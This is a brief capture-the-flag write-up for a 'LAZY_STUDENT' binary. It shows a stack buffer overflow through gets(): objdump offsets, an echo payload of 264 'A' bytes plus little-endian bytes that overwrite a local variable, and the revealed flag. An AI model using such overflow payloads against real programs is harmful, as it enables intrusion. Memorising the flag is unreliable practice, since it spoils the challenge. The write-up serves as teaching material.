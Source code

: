 Here in LAZY_STUDENT.c we see that the flag is printed if the lazy_student=Teacher(0xba3015)
The vunerability  in gets gives us the chance to attain above state as it doesn't check the boundary of the input and overflow may occur.
objdump -d ./LAZY_STUDENT
![image](https://github.com/user-attachments/assets/588bc711-f52b-473e-b3a5-83a2c5021c72)
At 0x12c8      if we see the space allocated initially it is 0x110(272 bytes) 
At 0x1368     comparing $ba3015 and -0x8(rbp) (if statement)
that means the lazy_student variable is stored at -0x8(rbp)
So we write some thrash in 272-8 = 264 bytes and the give the value of teacher int he little endian form as inout
echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x15\x30\xba" | ./LAZY_STUDENT
This first writes 264 A's and then assigns lazy_student to 0xba3015
now we see the flag 
Shaastra{MU#H@P@PPU_!$_L@ZY} 
